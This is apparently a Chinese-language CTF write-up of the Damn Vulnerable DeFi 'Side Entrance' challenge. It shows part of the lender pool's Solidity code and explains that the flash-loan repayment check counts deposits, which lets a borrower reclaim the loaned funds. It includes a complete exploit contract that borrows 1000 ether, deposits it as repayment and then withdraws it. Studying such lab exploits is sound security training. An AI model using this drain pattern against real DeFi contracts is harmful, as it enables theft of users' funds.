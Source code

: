 ```js
        }  
        emit Deposit(msg.sender, msg.value);  //更新发送者地址的余额并发出存款事件  
    }  

    function withdraw() external {  
        uint256 amount = balances\[msg.sender\];  

        delete balances\[msg.sender\];  
        emit Withdraw(msg.sender, amount);  

        SafeTransferLib.safeTransferETH(msg.sender, amount);  // 使用 SafeTransferLib 安全提现以太币  
    }  
    //用户可以使用此功能发起提现。它检索发送方的当前余额，删除用户的余额记录，发出提现事件，并将全部 ETH 金额转回发送方。  

    function flashLoan(uint256 amount) external {  
        uint256 balanceBefore = address(this).balance;  

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();  

        if (address(this).balance < balanceBefore)  // 如果合约余额小于执行借贷前的余额，表示还款失败，触发还款失败错误  
            revert RepayFailed();  
    }  
}
```

FlashLoan() 是具有借和还的功能，并且都是通过 transfer 来实现的，并没有进行特别的校验，只通过 address(this).balance < balanceBefore 来检查。但是 SideEntranceLenderPool 还提供了存入功能，并且没有做任何的限制，也就是说，可以通过 SideEntranceLenderPool 合约提供的 deposit 来绕过 FlanshLoan() 的验证，然后在进行 withdraw 取钱

那么我们就可以 先存入钱，再取出。（正常流程是通过闪电贷进行取出 (借) 和存入 (还)）

也就是说 在闪电贷时候 原本是偿还的 但是我们使用存款，那么是存款我们就可以自己取出来。打到掏空 Pool 的效果

Exp:

```js
contract SideEntranceHacker is IFlashLoanEtherReceiver {  

    SideEntranceLenderPool pool;  

    constructor(address instance) {  
        pool = SideEntranceLenderPool(instance);  
    }  

    function exploit() external payable {  
        pool.flashLoan(1000 ether);  
        pool.withdraw();  
        payable(tx.origin).transfer(1000 ether);  
    }  

    function execute() external payable {  
        pool.deposit{value: 1000 ether}();  
    }  

    receive() external payable {}  
}
```

